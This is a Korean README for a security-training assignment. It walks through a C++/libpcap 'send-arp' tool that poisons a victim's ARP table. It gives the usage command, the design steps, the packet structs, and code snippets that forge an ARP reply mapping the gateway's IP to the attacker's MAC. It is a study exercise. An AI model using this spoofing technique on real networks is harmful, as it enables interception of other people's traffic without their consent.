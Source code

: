 # BoB 14기 보안제품개발트랙 과제 : send-arp


## 과제

Sender(Victim)의 ARP table을 변조하라.

### 실행

```cpp
syntax : send-arp <interface> <sender ip> <target ip> [<sender ip 2> <target ip 2> ...]
sample : sudo ./send-arp wlan0 10.3.3.16 10.3.3.1

```

---

- Victim(Sender)의 ARP 테이블을 조작하여 Gateway(Target)의 MAC 주소를 Attacker의 MAC으로 바꾸는 **ARP 스푸핑** 공격을 수행
- tech: `pcap_sendpacket()`으로 패킷 전송, `pcap_next_ex()`로 응답 수신

---

### 로직 설계

1. 공격자의 인터페이스에서 MAC 주소를 읽음
2. sender IP가 사용하는 MAC 주소를 얻기 위해 ARP Request를 브로드캐스트로 전송
3. sender의 ARP Reply를 수신하여 sender의 MAC 주소를 획득
4. 위 정보를 바탕으로 위조된 ARP Reply(ARP 감염 패킷)을 sender에게 전송
5. sender는 target IP에 대해 attacker MAC을 매핑함 → **ARP 테이블 변조 성공**

---

### 주요 구조체 설명

### 코드 설명

### 헤더 구조 설명 (`send-arp.h`)

### Ethernet 헤더 (`eth_hdr_t`)

```cpp
#define MAC_LEN 6
#define IP_LEN 4

```

MAC 주소(6바이트)와 IPv4 주소(4바이트)의 길이 정의

```cpp
struct eth_hdr_t {
    uint8_t dmac[6]; // 목적지 MAC
    uint8_t smac[6]; // 출발지 MAC
    uint16_t type;   // 상위 프로토콜 (0x0806: ARP)
};
```

`uint8_t`는 정확히 1바이트

MAC 주소는 6바이트이므로 `uint8_t[6]`로 표현

ARP를 위해 type 필드는 0x0806으로 설정된다. `#pragma pack(1)`은 패딩 없이 구조체를 메모리에 붙여 저장하도록 한다.(네트워크 패킷은 바이트 단위로 정해진 형식이기 때문)

### ARP 헤더 (`arp_hdr_t`)

```cpp
struct arp_hdr_t {
    uint16_t hrd;     // 하드웨어 타입 (1: Ethernet)
    uint16_t pro;     // 프로토콜 타입 (0x0800: IPv4)
    uint8_t hln;      // MAC 길이 (6)
    uint8_t pln;      // IP 길이 (4)
    uint16_t op;      // 1: request, 2: reply -> 오퍼레이션코드
    uint8_t smac[6];  // 출발지 MAC
    uint8_t sip[4];   // 출발지 IP
    uint8_t tmac[6];  // 목적지 MAC
    uint8_t tip[4];   // 목적지 IP
};

```

`op` 필드로 request/reply를 구분한다.

### send-arp.cpp

### `get_mac()`

```cpp
bool get_mac(const std::string& iface, uint8_t* mac)

```

`/sys/class/net/<iface>/address`에서 MAC 주소를 문자열로 읽고, `std::stoi(..., 16)`으로 16진수 문자열을 숫자로 변환해 byte 배열에 저장. 

`:` 제거 후 2자리씩 나눠 파싱

`pcap_open_live()`

```cpp
pcap_t* handle = pcap_open_live(dev, BUFSIZ, 1, 1, errbuf);
```

`BUFSIZ`: 캡처 버퍼 사이즈
`1`: promiscuous 모드로 설정 (내 MAC이 아닌 패킷도 수신 하기 위해서)
`1`: timeout(ms), 너무 짧으면 패킷을 못 받을 수 있기 때문

---

### ARP Request 패킷 구성

```cpp
memset(eth->dmac, 0xff, MAC_LEN); // 브로드캐스트
memcpy(eth->smac, attacker_mac, MAC_LEN);
eth->type = htons(0x0806);

 
```

`host to network short(htons)` : 네트워크는 Big Endian, 시스템은 Little Endian일 수 있으므로 명시적 변환을 하기 위해서

```cpp
arp->op  = htons(1); // ARP Request
inet_pton(AF_INET, target_ip, arp->sip); // source는 내가 target이라 가정
inet_pton(AF_INET, sender_ip, arp->tip); // 목적지는 sender

```

ARP Request는 이 IP 주소를 가진 장치에게  MAC 주소가 무엇인지를 묻는다.

`arp->op = htons(1);`-> ARP Request(요청) 패킷임을 명시하는 부분

***ARP 프로토콜에서 op (Operation) 필드**

| 값 | 의미 |
| --- | --- |
| 1 | ARP Request |
| 2 | ARP Reply |

*ARP 패킷은 네트워크 바이트 순서(Big Endian) 를 사용함

**ARP 요청을 sender에게 한 이유** → 목적은 sender의 MAC 주소를 얻는 것.

즉, `target_ip`에서 `sender_ip`의 MAC을 알아내는 요청을 broadcast로 뿌려 주었다. 

---

### ARP Reply 수신 (sender의 MAC 획득)

```cpp
	while (true) {
		int res = pcap_next_ex(handle, &header, &pkt);
		if (res != 1) continue;

		auto* r_eth = (eth_hdr_t*)pkt;
		auto* r_arp = (arp_hdr_t*)(pkt + sizeof(eth_hdr_t));

		if (ntohs(r_eth->type) == 0x0806 &&
			ntohs(r_arp->op) == 2 &&
			memcmp(r_arp->sip, arp->tip, IP_LEN) == 0) {
			memcpy(sender_mac, r_arp->smac, MAC_LEN);
		break;
			}
	}

```

원하는 ARP Reply가 올 때까지 while문으로 반복해주었다. 

ARP Reply 필터링해 주었다. 

패킷을 캡처하는 `pcap_next_ex()` 를 반복해서 MAC 주소를 추출한다. 

EtherType이 0x0806인지를 확인하고, ARP Reply인지(2) 확인한 뒤, 보내는 쪽 IP가 우리가 ARP 요청한 대상(sender_ip)인지 확인한다. (`sip == sender_ip`이면 응답 보낸 건 sender이다.)

---

### 위조된 ARP Reply 전송 (감염 패킷)

```cpp
arp->op  = htons(2); // ARP Reply
memcpy(arp->smac, attacker_mac, MAC_LEN);  // 출발 MAC = attacker (위조)
inet_pton(AF_INET, target_ip, arp->sip);   // 출발 IP = target (위조)
memcpy(arp->tmac, sender_mac, MAC_LEN);    // 목적 MAC = sender
inet_pton(AF_INET, sender_ip, arp->tip);   // 목적 IP = sender

```

sender에게 보내는 위조된 패킷이다.

`arp->op = htons(2);`-> ARP Reply(응답) 패킷임을 명시하는 부분이다. 

2를 넣으면 이 패킷이 ARP Reply임을 나타낸다. arp reply 패킷으로 위장해야 하므로 해당 코드를 사용한다.

---

### knowledge

| 구성 요소 | 크기 (bytes) |  
| --- | --- | 
| Ethernet Header | 14 bytes |  
| ARP Header | 28 bytes |  
| 합계 | **42 bytes** |

---

### **Reference**

[Attacker(자신) Mac 주소 값를 알아 내는 방법]

https://github.com/YOGYUI/Sniffets/tree/main/linux_get_mac_address/src

**GPT, Claude**

https://chatgpt.com/

https://claude.ai/

[op 1,2]

https://whatdocumentary.tistory.com/52

### Issue

---

ARP Request 보냈는데 되지 않았다. 알고보니, `op = 1` 을 그냥 넣고, `htons()` 을 넣지 않아서였다. ARP op 필드가 0x0100이 된 것이다.

